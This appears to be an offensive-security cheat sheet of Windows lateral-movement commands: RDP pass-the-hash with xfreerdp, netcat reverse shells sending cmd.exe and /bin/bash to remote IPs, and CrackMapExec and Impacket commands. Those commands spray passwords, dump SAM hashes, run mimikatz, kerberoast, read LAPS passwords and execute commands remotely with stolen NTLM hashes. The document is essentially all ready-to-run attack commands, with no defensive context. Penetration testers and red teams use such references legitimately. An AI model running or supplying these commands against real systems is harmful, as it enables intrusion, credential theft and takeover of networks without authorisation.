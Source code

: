 ##### RDP

```bash
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>
```

##### NC

```powershell
nc.exe ip port -e cmd.exe
nc -lnvp 4444
```

##### Pass The Hash // CME // Impacket // NC

```powershell
nc.exe 172.21.24.11 443 -e cmd.exe
nc 172.21.23.100 443 -e /bin/bash

##CRACKMAPEXEC

crackmapexec smb 192.168.1.101 -u user1 user2 user3 -p Summer18
crackmapexec smb 192.168.1.101 -u user1 -p password1 password2 password3
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -x 'whoami'
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -x 'net user Administrator /domain' --exec-method atexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -x 'net user Administrator /domain' --exec-method wmiexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -X '$PSVersionTable' --exec-method wmiexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --sam
crackmapexec smb -L
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -M mimikatz
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -M mimikatz -o COMMAND='privilege::debug'
crackmapexec smb 192.168.1.1 -d zoro.gold.local -k -u bonclay -p Ocotober2022
export KRB5CCNAME=/home/bonclay/impacket/administrator.ccache / smb zoro.gold.local --use-kcache
crackmapexec smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --shares
crackmapexec smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
crackmapexec smb 192.168.1.0/24 -u localguy -H '13b29964cc2480b4ef454c59562e675c' --local-auth
crackmapexec smb <ip> -u user-can-read-laps -p pass --laps
crackmapexec smb <ip> -u 'user' -p 'pass' -M spooler
crackmapexec ldap 192.168.0.104 -u harry -p pass --kerberoasting / hashcat -m13100 output.txt wordlist.txt

##IMPACKET

python smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
pth-smbclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105/c$
python psexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105
python wmiexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105
pth-wmic -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105 "select Name from Win32_UserAccount"
python rpcdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
pth-rpcclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105
pth-net rpc share list -U 'ignite\Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38' -S 192.168.1.105
pth-winexe -U Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105 cmd.exe
```